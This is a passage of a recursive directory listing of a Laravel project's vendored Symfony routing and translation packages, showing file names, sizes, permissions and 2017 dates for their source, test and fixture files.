-rw-r--r--  1 www-data www-data  776 Mar  2  2017 phpunit.xml.dist

/var/www/laravel/vendor/symfony/routing/Annotation:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.9K Mar  2  2017 Route.php

/var/www/laravel/vendor/symfony/routing/Exception:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  411 Mar  2  2017 ExceptionInterface.php
-rw-r--r-- 1 www-data www-data  506 Mar  2  2017 InvalidParameterException.php
-rw-r--r-- 1 www-data www-data 1.1K Mar  2  2017 MethodNotAllowedException.php
-rw-r--r-- 1 www-data www-data  562 Mar  2  2017 MissingMandatoryParametersException.php
-rw-r--r-- 1 www-data www-data  548 Mar  2  2017 ResourceNotFoundException.php
-rw-r--r-- 1 www-data www-data  501 Mar  2  2017 RouteNotFoundException.php

/var/www/laravel/vendor/symfony/routing/Generator:
total 36K
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.3K Mar  2  2017 ConfigurableRequirementsInterface.php
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 Dumper
-rw-r--r-- 1 www-data www-data  14K Mar  2  2017 UrlGenerator.php
-rw-r--r-- 1 www-data www-data 3.7K Mar  2  2017 UrlGeneratorInterface.php

/var/www/laravel/vendor/symfony/routing/Generator/Dumper:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data  934 Mar  2  2017 GeneratorDumper.php
-rw-r--r-- 1 www-data www-data  990 Mar  2  2017 GeneratorDumperInterface.php
-rw-r--r-- 1 www-data www-data 3.6K Mar  2  2017 PhpGeneratorDumper.php

/var/www/laravel/vendor/symfony/routing/Loader:
total 76K
drwxr-xr-x 4 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 8.0K Mar  2  2017 AnnotationClassLoader.php
-rw-r--r-- 1 www-data www-data 2.6K Mar  2  2017 AnnotationDirectoryLoader.php
-rw-r--r-- 1 www-data www-data 4.5K Mar  2  2017 AnnotationFileLoader.php
-rw-r--r-- 1 www-data www-data 1.1K Mar  2  2017 ClosureLoader.php
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 DependencyInjection
-rw-r--r-- 1 www-data www-data 1.5K Mar  2  2017 DirectoryLoader.php
-rw-r--r-- 1 www-data www-data 3.1K Mar  2  2017 ObjectRouteLoader.php
-rw-r--r-- 1 www-data www-data 1.7K Mar  2  2017 PhpFileLoader.php
-rw-r--r-- 1 www-data www-data  13K Mar  2  2017 XmlFileLoader.php
-rw-r--r-- 1 www-data www-data 8.0K Mar  2  2017 YamlFileLoader.php
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 schema

/var/www/laravel/vendor/symfony/routing/Loader/DependencyInjection:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data  943 Mar  2  2017 ServiceRouterLoader.php

/var/www/laravel/vendor/symfony/routing/Loader/schema:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar  2  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 routing

/var/www/laravel/vendor/symfony/routing/Loader/schema/routing:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data 5.3K Mar  2  2017 routing-1.0.xsd

/var/www/laravel/vendor/symfony/routing/Matcher:
total 44K
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 Dumper
-rw-r--r-- 1 www-data www-data 1.9K Mar  2  2017 RedirectableUrlMatcher.php
-rw-r--r-- 1 www-data www-data  839 Mar  2  2017 RedirectableUrlMatcherInterface.php
-rw-r--r-- 1 www-data www-data 1.2K Mar  2  2017 RequestMatcherInterface.php
-rw-r--r-- 1 www-data www-data 5.0K Mar  2  2017 TraceableUrlMatcher.php
-rw-r--r-- 1 www-data www-data 7.4K Mar  2  2017 UrlMatcher.php
-rw-r--r-- 1 www-data www-data 1.3K Mar  2  2017 UrlMatcherInterface.php

/var/www/laravel/vendor/symfony/routing/Matcher/Dumper:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data 3.5K Mar  2  2017 DumperCollection.php
-rw-r--r-- 1 www-data www-data 2.7K Mar  2  2017 DumperPrefixCollection.php
-rw-r--r-- 1 www-data www-data 1.2K Mar  2  2017 DumperRoute.php
-rw-r--r-- 1 www-data www-data  928 Mar  2  2017 MatcherDumper.php
-rw-r--r-- 1 www-data www-data  988 Mar  2  2017 MatcherDumperInterface.php
-rw-r--r-- 1 www-data www-data  14K Mar  2  2017 PhpMatcherDumper.php

/var/www/laravel/vendor/symfony/routing/Tests:
total 112K
drwxr-xr-x 7 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 Annotation
-rw-r--r-- 1 www-data www-data 1.1K Mar  2  2017 CompiledRouteTest.php
drwxr-xr-x 7 www-data www-data 4.0K Mar  2  2017 Fixtures
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 Generator
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 Loader
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 Matcher
-rw-r--r-- 1 www-data www-data 5.6K Mar  2  2017 RequestContextTest.php
-rw-r--r-- 1 www-data www-data  14K Mar  2  2017 RouteCollectionBuilderTest.php
-rw-r--r-- 1 www-data www-data  14K Mar  2  2017 RouteCollectionTest.php
-rw-r--r-- 1 www-data www-data  15K Mar  2  2017 RouteCompilerTest.php
-rw-r--r-- 1 www-data www-data  13K Mar  2  2017 RouteTest.php
-rw-r--r-- 1 www-data www-data 5.2K Mar  2  2017 RouterTest.php

/var/www/laravel/vendor/symfony/routing/Tests/Annotation:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data 1.6K Mar  2  2017 RouteTest.php

/var/www/laravel/vendor/symfony/routing/Tests/Fixtures:
total 164K
drwxr-xr-x 7 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar  2  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 AnnotatedClasses
-rw-r--r-- 1 www-data www-data  623 Mar  2  2017 CustomXmlFileLoader.php
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 OtherAnnotatedClasses
-rw-r--r-- 1 www-data www-data  793 Mar  2  2017 RedirectableUrlMatcher.php
-rw-r--r-- 1 www-data www-data    0 Mar  2  2017 annotated.php
-rw-r--r-- 1 www-data www-data   84 Mar  2  2017 bad_format.yml
-rw-r--r-- 1 www-data www-data    0 Mar  2  2017 bar.xml
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 directory
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 directory_import
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 dumper
-rw-r--r-- 1 www-data www-data    0 Mar  2  2017 empty.yml
-rw-r--r-- 1 www-data www-data    0 Mar  2  2017 file_resource.yml
-rw-r--r-- 1 www-data www-data    0 Mar  2  2017 foo.xml
-rw-r--r-- 1 www-data www-data    0 Mar  2  2017 foo1.xml
-rw-r--r-- 1 www-data www-data   66 Mar  2  2017 incomplete.yml
-rw-r--r-- 1 www-data www-data  659 Mar  2  2017 list_defaults.xml
-rw-r--r-- 1 www-data www-data  722 Mar  2  2017 list_in_list_defaults.xml
-rw-r--r-- 1 www-data www-data  731 Mar  2  2017 list_in_map_defaults.xml
-rw-r--r-- 1 www-data www-data  760 Mar  2  2017 list_null_values.xml
-rw-r--r-- 1 www-data www-data  705 Mar  2  2017 map_defaults.xml
-rw-r--r-- 1 www-data www-data  768 Mar  2  2017 map_in_list_defaults.xml
-rw-r--r-- 1 www-data www-data  776 Mar  2  2017 map_in_map_defaults.xml
-rw-r--r-- 1 www-data www-data  839 Mar  2  2017 map_null_values.xml
-rw-r--r-- 1 www-data www-data  303 Mar  2  2017 missing_id.xml
-rw-r--r-- 1 www-data www-data  303 Mar  2  2017 missing_path.xml
-rw-r--r-- 1 www-data www-data  830 Mar  2  2017 namespaceprefix.xml
-rw-r--r-- 1 www-data www-data   62 Mar  2  2017 nonesense_resource_plus_path.yml
-rw-r--r-- 1 www-data www-data   57 Mar  2  2017 nonesense_type_without_resource.yml
-rw-r--r-- 1 www-data www-data  403 Mar  2  2017 nonvalid.xml
-rw-r--r-- 1 www-data www-data    4 Mar  2  2017 nonvalid.yml
-rw-r--r-- 1 www-data www-data   14 Mar  2  2017 nonvalid2.yml
-rw-r--r-- 1 www-data www-data   61 Mar  2  2017 nonvalidkeys.yml
-rw-r--r-- 1 www-data www-data  289 Mar  2  2017 nonvalidnode.xml
-rw-r--r-- 1 www-data www-data  487 Mar  2  2017 nonvalidroute.xml
-rw-r--r-- 1 www-data www-data  529 Mar  2  2017 null_values.xml
-rw-r--r-- 1 www-data www-data 1.1K Mar  2  2017 scalar_defaults.xml
-rw-r--r-- 1 www-data www-data   31 Mar  2  2017 special_route_name.yml
-rw-r--r-- 1 www-data www-data  474 Mar  2  2017 validpattern.php
-rw-r--r-- 1 www-data www-data 1.2K Mar  2  2017 validpattern.xml
-rw-r--r-- 1 www-data www-data  404 Mar  2  2017 validpattern.yml
-rw-r--r-- 1 www-data www-data  478 Mar  2  2017 validresource.php
-rw-r--r-- 1 www-data www-data  539 Mar  2  2017 validresource.xml
-rw-r--r-- 1 www-data www-data  243 Mar  2  2017 validresource.yml
-rw-r--r-- 1 www-data www-data   83 Mar  2  2017 with_define_path_variable.php
-rw-r--r-- 1 www-data www-data   49 Mar  2  2017 withdoctype.xml

/var/www/laravel/vendor/symfony/routing/Tests/Fixtures/AnnotatedClasses:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data  341 Mar  2  2017 AbstractClass.php
-rw-r--r-- 1 www-data www-data  428 Mar  2  2017 BarClass.php
-rw-r--r-- 1 www-data www-data  327 Mar  2  2017 FooClass.php
-rw-r--r-- 1 www-data www-data  194 Mar  2  2017 FooTrait.php

/var/www/laravel/vendor/symfony/routing/Tests/Fixtures/OtherAnnotatedClasses:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data   26 Mar  2  2017 NoStartTagClass.php
-rw-r--r-- 1 www-data www-data  393 Mar  2  2017 VariadicClass.php

/var/www/laravel/vendor/symfony/routing/Tests/Fixtures/directory:
total 16K
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar  2  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 recurse
-rw-r--r-- 1 www-data www-data   27 Mar  2  2017 routes3.yml

/var/www/laravel/vendor/symfony/routing/Tests/Fixtures/directory/recurse:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data   27 Mar  2  2017 routes1.yml
-rw-r--r-- 1 www-data www-data   27 Mar  2  2017 routes2.yml

/var/www/laravel/vendor/symfony/routing/Tests/Fixtures/directory_import:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data   61 Mar  2  2017 import.yml

/var/www/laravel/vendor/symfony/routing/Tests/Fixtures/dumper:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data 5.6K Mar  2  2017 url_matcher1.apache
-rw-r--r-- 1 www-data www-data  11K Mar  2  2017 url_matcher1.php
-rw-r--r-- 1 www-data www-data  184 Mar  2  2017 url_matcher2.apache
-rw-r--r-- 1 www-data www-data  12K Mar  2  2017 url_matcher2.php
-rw-r--r-- 1 www-data www-data 1.5K Mar  2  2017 url_matcher3.php

/var/www/laravel/vendor/symfony/routing/Tests/Generator:
total 44K
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar  2  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 Dumper
-rw-r--r-- 1 www-data www-data  31K Mar  2  2017 UrlGeneratorTest.php

/var/www/laravel/vendor/symfony/routing/Tests/Generator/Dumper:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data 7.4K Mar  2  2017 PhpGeneratorDumperTest.php

/var/www/laravel/vendor/symfony/routing/Tests/Loader:
total 64K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data  834 Mar  2  2017 AbstractAnnotationLoaderTest.php
-rw-r--r-- 1 www-data www-data 6.8K Mar  2  2017 AnnotationClassLoaderTest.php
-rw-r--r-- 1 www-data www-data 2.6K Mar  2  2017 AnnotationDirectoryLoaderTest.php
-rw-r--r-- 1 www-data www-data 2.6K Mar  2  2017 AnnotationFileLoaderTest.php
-rw-r--r-- 1 www-data www-data 1.5K Mar  2  2017 ClosureLoaderTest.php
-rw-r--r-- 1 www-data www-data 2.4K Mar  2  2017 DirectoryLoaderTest.php
-rw-r--r-- 1 www-data www-data 3.2K Mar  2  2017 ObjectRouteLoaderTest.php
-rw-r--r-- 1 www-data www-data 3.6K Mar  2  2017 PhpFileLoaderTest.php
-rw-r--r-- 1 www-data www-data  11K Mar  2  2017 XmlFileLoaderTest.php
-rw-r--r-- 1 www-data www-data 4.6K Mar  2  2017 YamlFileLoaderTest.php

/var/www/laravel/vendor/symfony/routing/Tests/Matcher:
total 44K
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Mar  2  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 Dumper
-rw-r--r-- 1 www-data www-data 2.5K Mar  2  2017 RedirectableUrlMatcherTest.php
-rw-r--r-- 1 www-data www-data 4.4K Mar  2  2017 TraceableUrlMatcherTest.php
-rw-r--r-- 1 www-data www-data  18K Mar  2  2017 UrlMatcherTest.php

/var/www/laravel/vendor/symfony/routing/Tests/Matcher/Dumper:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data  748 Mar  2  2017 DumperCollectionTest.php
-rw-r--r-- 1 www-data www-data 4.0K Mar  2  2017 DumperPrefixCollectionTest.php
-rw-r--r-- 1 www-data www-data 9.7K Mar  2  2017 PhpMatcherDumperTest.php

/var/www/laravel/vendor/symfony/translation:
total 136K
drwxr-xr-x 11 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   34 Mar 21  2017 .gitignore
-rw-r--r--  1 www-data www-data 2.7K Mar 21  2017 CHANGELOG.md
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 Catalogue
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 DataCollector
-rw-r--r--  1 www-data www-data 4.5K Mar 21  2017 DataCollectorTranslator.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 Dumper
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 Exception
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 Extractor
-rw-r--r--  1 www-data www-data 1.5K Mar 21  2017 IdentityTranslator.php
-rw-r--r--  1 www-data www-data 2.8K Mar 21  2017 Interval.php
-rw-r--r--  1 www-data www-data 1.1K Mar 21  2017 LICENSE
drwxr-xr-x  3 www-data www-data 4.0K Mar 21  2017 Loader
-rw-r--r--  1 www-data www-data 3.6K Mar 21  2017 LoggingTranslator.php
-rw-r--r--  1 www-data www-data 6.6K Mar 21  2017 MessageCatalogue.php
-rw-r--r--  1 www-data www-data 3.8K Mar 21  2017 MessageCatalogueInterface.php
-rw-r--r--  1 www-data www-data 3.2K Mar 21  2017 MessageSelector.php
-rw-r--r--  1 www-data www-data 1.6K Mar 21  2017 MetadataAwareInterface.php
-rw-r--r--  1 www-data www-data 6.0K Mar 21  2017 PluralizationRules.php
-rw-r--r--  1 www-data www-data  516 Mar 21  2017 README.md
drwxr-xr-x  9 www-data www-data 4.0K Mar 21  2017 Tests
-rw-r--r--  1 www-data www-data  12K Mar 21  2017 Translator.php
-rw-r--r--  1 www-data www-data  802 Mar 21  2017 TranslatorBagInterface.php
-rw-r--r--  1 www-data www-data 2.3K Mar 21  2017 TranslatorInterface.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 Util
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 Writer
-rw-r--r--  1 www-data www-data 1.2K Mar 21  2017 composer.json
-rw-r--r--  1 www-data www-data  780 Mar 21  2017 phpunit.xml.dist

/var/www/laravel/vendor/symfony/translation/Catalogue:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 4.5K Mar 21  2017 AbstractOperation.php
-rw-r--r--  1 www-data www-data 1.9K Mar 21  2017 MergeOperation.php
-rw-r--r--  1 www-data www-data 2.1K Mar 21  2017 OperationInterface.php
-rw-r--r--  1 www-data www-data 2.9K Mar 21  2017 TargetOperation.php

/var/www/laravel/vendor/symfony/translation/DataCollector:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 4.2K Mar 21  2017 TranslationDataCollector.php

/var/www/laravel/vendor/symfony/translation/Dumper:
total 60K
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 1.5K Mar 21  2017 CsvFileDumper.php
-rw-r--r--  1 www-data www-data  810 Mar 21  2017 DumperInterface.php
-rw-r--r--  1 www-data www-data 3.8K Mar 21  2017 FileDumper.php
-rw-r--r--  1 www-data www-data 2.9K Mar 21  2017 IcuResFileDumper.php
-rw-r--r--  1 www-data www-data 1006 Mar 21  2017 IniFileDumper.php
-rw-r--r--  1 www-data www-data 1.1K Mar 21  2017 JsonFileDumper.php
-rw-r--r--  1 www-data www-data 2.3K Mar 21  2017 MoFileDumper.php
-rw-r--r--  1 www-data www-data  848 Mar 21  2017 PhpFileDumper.php
-rw-r--r--  1 www-data www-data 1.6K Mar 21  2017 PoFileDumper.php
-rw-r--r--  1 www-data www-data 1.4K Mar 21  2017 QtFileDumper.php
-rw-r--r--  1 www-data www-data 6.9K Mar 21  2017 XliffFileDumper.php
-rw-r--r--  1 www-data www-data 1.5K Mar 21  2017 YamlFileDumper.php

/var/www/laravel/vendor/symfony/translation/Exception:
total 32K
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  450 Mar 21  2017 ExceptionInterface.php
-rw-r--r--  1 www-data www-data  521 Mar 21  2017 InvalidArgumentException.php
-rw-r--r--  1 www-data www-data  493 Mar 21  2017 InvalidResourceException.php
-rw-r--r--  1 www-data www-data  487 Mar 21  2017 LogicException.php
-rw-r--r--  1 www-data www-data  492 Mar 21  2017 NotFoundResourceException.php
-rw-r--r--  1 www-data www-data  497 Mar 21  2017 RuntimeException.php

/var/www/laravel/vendor/symfony/translation/Extractor:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 2.1K Mar 21  2017 AbstractFileExtractor.php
-rw-r--r--  1 www-data www-data 1.4K Mar 21  2017 ChainExtractor.php
-rw-r--r--  1 www-data www-data 1.1K Mar 21  2017 ExtractorInterface.php

/var/www/laravel/vendor/symfony/translation/Loader:
total 84K
drwxr-xr-x  3 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 1.9K Mar 21  2017 ArrayLoader.php
-rw-r--r--  1 www-data www-data 1.8K Mar 21  2017 CsvFileLoader.php
-rw-r--r--  1 www-data www-data 1.8K Mar 21  2017 FileLoader.php
-rw-r--r--  1 www-data www-data 1.9K Mar 21  2017 IcuDatFileLoader.php
-rw-r--r--  1 www-data www-data 2.9K Mar 21  2017 IcuResFileLoader.php
-rw-r--r--  1 www-data www-data  560 Mar 21  2017 IniFileLoader.php
-rw-r--r--  1 www-data www-data 1.8K Mar 21  2017 JsonFileLoader.php
-rw-r--r--  1 www-data www-data 1.1K Mar 21  2017 LoaderInterface.php
-rw-r--r--  1 www-data www-data 4.7K Mar 21  2017 MoFileLoader.php
-rw-r--r--  1 www-data www-data  607 Mar 21  2017 PhpFileLoader.php
-rw-r--r--  1 www-data www-data 5.3K Mar 21  2017 PoFileLoader.php
-rw-r--r--  1 www-data www-data 2.6K Mar 21  2017 QtFileLoader.php
-rw-r--r--  1 www-data www-data  12K Mar 21  2017 XliffFileLoader.php
-rw-r--r--  1 www-data www-data 1.4K Mar 21  2017 YamlFileLoader.php
drwxr-xr-x  3 www-data www-data 4.0K Mar 21  2017 schema

/var/www/laravel/vendor/symfony/translation/Loader/schema:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 21  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Mar 21  2017 dic

/var/www/laravel/vendor/symfony/translation/Loader/schema/dic:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 21  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar 21  2017 xliff-core

/var/www/laravel/vendor/symfony/translation/Loader/schema/dic/xliff-core:
total 144K
drwxr-xr-x 2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar 21  2017 ..
-rw-r--r-- 1 www-data www-data 102K Mar 21  2017 xliff-core-1.2-strict.xsd
-rw-r--r-- 1 www-data www-data  17K Mar 21  2017 xliff-core-2.0.xsd
-rw-r--r-- 1 www-data www-data 8.7K Mar 21  2017 xml.xsd

/var/www/laravel/vendor/symfony/translation/Tests:
total 112K
drwxr-xr-x  9 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 Catalogue
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 DataCollector
-rw-r--r--  1 www-data www-data 3.2K Mar 21  2017 DataCollectorTranslatorTest.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 Dumper
-rw-r--r--  1 www-data www-data 3.3K Mar 21  2017 IdentityTranslatorTest.php
-rw-r--r--  1 www-data www-data 1.3K Mar 21  2017 IntervalTest.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 Loader
-rw-r--r--  1 www-data www-data 1.8K Mar 21  2017 LoggingTranslatorTest.php
-rw-r--r--  1 www-data www-data 8.8K Mar 21  2017 MessageCatalogueTest.php
-rw-r--r--  1 www-data www-data 7.7K Mar 21  2017 MessageSelectorTest.php
-rw-r--r--  1 www-data www-data 4.0K Mar 21  2017 PluralizationRulesTest.php
-rw-r--r--  1 www-data www-data  11K Mar 21  2017 TranslatorCacheTest.php
-rw-r--r--  1 www-data www-data  21K Mar 21  2017 TranslatorTest.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 Util
drwxr-xr-x  2 www-data www-data 4.0K Mar 21  2017 Writer
drwxr-xr-x  3 www-data www-data 4.0K Mar 21  2017 fixtures

/var/www/laravel/vendor/symfony/translation/Tests/Catalogue:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Mar 21  2017 ..
-rw-r--r-- 1 www-data www-data 2.2K Mar 21  2017 AbstractOperationTest.php
-rw-r--r-- 1 www-data www-data 3.0K Mar 21  2017 MergeOperationTest.php
-rw-r--r-- 1 www-data www-data 2.9K Mar 21  2017 TargetOperationTest.php

/var/www/laravel/vendor/symfony/translation/Tests/DataCollector:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Mar 21  2017 ..
-rw-r--r-- 1 www-data www-data 5.5K Mar 21  2017 TranslationDataCollectorTest.php

/var/www/laravel/vendor/symfony/translation/Tests/Dumper:
total 52K
drwxr-xr-x 2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Mar 21  2017 ..
-rw-r--r-- 1 www-data www-data  834 Mar 21  2017 CsvFileDumperTest.php
-rw-r--r-- 1 www-data www-data 2.3K Mar 21  2017 FileDumperTest.php
-rw-r--r-- 1 www-data www-data  819 Mar 21  2017 IcuResFileDumperTest.php
-rw-r--r-- 1 www-data www-data  798 Mar 21  2017 IniFileDumperTest.php
-rw-r--r-- 1 www-data www-data 1.2K Mar 21  2017 JsonFileDumperTest.php
-rw-r--r-- 1 www-data www-data  794 Mar 21  2017 MoFileDumperTest.php
-rw-r--r-- 1 www-data www-data  798 Mar 21  2017 PhpFileDumperTest.php
-rw-r--r-- 1 www-data www-data  794 Mar 21  2017 PoFileDumperTest.php
-rw-r--r-- 1 www-data www-data  808 Mar 21  2017 QtFileDumperTest.php
-rw-r--r-- 1 www-data www-data 3.0K Mar 21  2017 XliffFileDumperTest.php
-rw-r--r-- 1 www-data www-data 1.4K Mar 21  2017 YamlFileDumperTest.php

/var/www/laravel/vendor/symfony/translation/Tests/Loader:
total 60K
drwxr-xr-x 2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Mar 21  2017 ..
-rw-r--r-- 1 www-data www-data 2.0K Mar 21  2017 CsvFileLoaderTest.php
-rw-r--r-- 1 www-data www-data 2.4K Mar 21  2017 IcuDatFileLoaderTest.php
-rw-r--r-- 1 www-data www-data 1.6K Mar 21  2017 IcuResFileLoaderTest.php
-rw-r--r-- 1 www-data www-data 1.7K Mar 21  2017 IniFileLoaderTest.php
-rw-r--r-- 1 www-data www-data 2.1K Mar 21  2017 JsonFileLoaderTest.php
-rw-r--r-- 1 www-data www-data  541 Mar 21  2017 LocalizedTestCase.php
-rw-r--r-- 1 www-data www-data 2.5K Mar 21  2017 MoFileLoaderTest.php
-rw-r--r-- 1 www-data www-data 1.6K Mar 21  2017 PhpFileLoaderTest.php
-rw-r--r-- 1 www-data www-data 3.9K Mar 21  2017 PoFileLoaderTest.php
-rw-r--r-- 1 www-data www-data 2.5K Mar 21  2017 QtFileLoaderTest.php
-rw-r--r-- 1 www-data www-data 7.2K Mar 21  2017 XliffFileLoaderTest.php
-rw-r--r-- 1 www-data www-data 2.3K Mar 21  2017 YamlFileLoaderTest.php

/var/www/laravel/vendor/symfony/translation/Tests/Util:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Mar 21  2017 ..
-rw-r--r-- 1 www-data www-data 2.0K Mar 21  2017 ArrayConverterTest.php

/var/www/laravel/vendor/symfony/translation/Tests/Writer:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Mar 21  2017 ..
-rw-r--r-- 1 www-data www-data 1.8K Mar 21  2017 TranslationWriterTest.php

/var/www/laravel/vendor/symfony/translation/Tests/fixtures:
total 148K
drwxr-xr-x 3 www-data www-data 4.0K Mar 21  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Mar 21  2017 ..
-rw-r--r-- 1 www-data www-data   49 Mar 21  2017 empty-translation.mo
-rw-r--r-- 1 www-data www-data   23 Mar 21  2017 empty-translation.po
-rw-r--r-- 1 www-data www-data    0 Mar 21  2017 empty.csv
-rw-r--r-- 1 www-data www-data    0 Mar 21  2017 empty.ini
